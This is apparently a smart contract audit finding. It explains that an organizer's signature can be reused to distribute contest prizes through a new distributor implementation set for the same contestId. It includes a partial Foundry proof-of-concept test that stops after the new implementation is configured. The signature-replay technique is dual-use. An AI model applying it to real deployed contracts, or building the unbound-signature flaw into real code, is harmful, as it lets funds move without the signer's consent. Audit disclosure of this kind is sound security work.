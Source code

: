 ```solidity
164:         address proxy = _deployProxy(organizer, contestId, implementation);
165:         _distribute(proxy, data);
166:         return proxy;
167:     }
```

For some reason, there could be a different `distribution` implementation to the same `contestId`. Then the caller who owns the signature can distribute even if the organizer does not authorize a signature to the new implementation.

I created a test where the caller who owns a signature can distribute to new `distribute implementation` using the same signature. Test steps:

1. Owner setContest using the implementation `address(distributor)`
2. Organizer creates a signature.
3. Caller distributes prizes using the signature.
4. For some reason there is a new distributor implementation. The Owner set the new distributor for the same `contestId`.
5. The caller can distribute prizes using the same signature created in the step 2 in different distributor implementation.

```solidity
// test/integration/ProxyFactoryTest.t.sol:ProxyFactoryTest
// $ forge test --match-test "testSignatureCanBeUsedToNewImplementation" -vvv
//
    function testSignatureCanBeUsedToNewImplementation() public {
        address organizer = TEST_SIGNER;
        bytes32 contestId = keccak256(abi.encode("Jason", "001"));
        //
        // 1. Owner setContest using address(distributor)
        vm.startPrank(factoryAdmin);
        proxyFactory.setContest(organizer, contestId, block.timestamp + 8 days, address(distributor));
        vm.stopPrank();
        bytes32 salt = keccak256(abi.encode(organizer, contestId, address(distributor)));
        address proxyAddress = proxyFactory.getProxyAddress(salt, address(distributor));
        vm.startPrank(sponsor);
        MockERC20(jpycv2Address).transfer(proxyAddress, 10000 ether);
        vm.stopPrank();
        assertEq(MockERC20(jpycv2Address).balanceOf(proxyAddress), 10000 ether);
        // before
        assertEq(MockERC20(jpycv2Address).balanceOf(user1), 0 ether);
        assertEq(MockERC20(jpycv2Address).balanceOf(stadiumAddress), 0 ether);
        //
        // 2. Organizer creates a signature
        (bytes32 digest, bytes memory sendingData, bytes memory signature) = createSignatureByASigner(TEST_SIGNER_KEY);
        assertEq(ECDSA.recover(digest, signature), TEST_SIGNER);
        vm.warp(8.01 days);
        //
        // 3. Caller distributes prizes using the signature
        proxyFactory.deployProxyAndDistributeBySignature(
            TEST_SIGNER, contestId, address(distributor), signature, sendingData
        );
        // after
        assertEq(MockERC20(jpycv2Address).balanceOf(user1), 9500 ether);
        assertEq(MockERC20(jpycv2Address).balanceOf(stadiumAddress), 500 ether);
        //
        // 4. For some reason there is a new distributor implementation.
        // The Owner set the new distributor for the same contestId
        Distributor new_distributor = new Distributor(address(proxyFactory), stadiumAddress);
        vm.startPrank(factoryAdmin);
        proxyFactory.setContest(organizer, contestId, block.timestamp + 8 days, address(new_distributor));
        vm.stopPrank();
```